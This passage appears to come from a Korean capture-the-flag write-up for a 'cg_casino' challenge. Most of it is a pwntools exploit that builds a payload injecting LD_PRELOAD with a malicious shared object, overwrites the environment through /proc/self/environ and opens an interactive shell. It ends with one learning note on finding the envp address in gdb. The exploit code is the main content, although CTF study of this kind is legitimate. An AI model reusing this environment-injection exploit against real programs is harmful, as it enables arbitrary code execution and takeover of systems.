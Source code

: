 ```

	stack_end=environ&0xfffffffffffff000
	stack_end=stack_end+(0x1000*i)
	env_start=stack_end-env_len

	voucher="hawe.so"+"\x00"
	voucher+="LD_PRELOAD=/home/cg_casino/voucher/hawe.so"+"\x00"
	voucher+="A"*(environ-n_vou-len(voucher))
	voucher+=p64(n_vou+8)
	voucher+="\x00"*(env_start-(environ+8))
	voucher+=hawe_so.read()

	hawe_so.close()

	#overwrite_env_arr

	put_vou(voucher)
	merg_vou("///////////////proc/self/environ")
	put_vou(voucher)

	jackpot()

	if p.recvuntil("|________________________|",timeout=0.1):
		continue
	else:
		p.interactive()
```

# 알게 된 것
***
##### 1. gdb에서 envp의 주소는 x/a &__environ을 통해서 알 수 있다. 


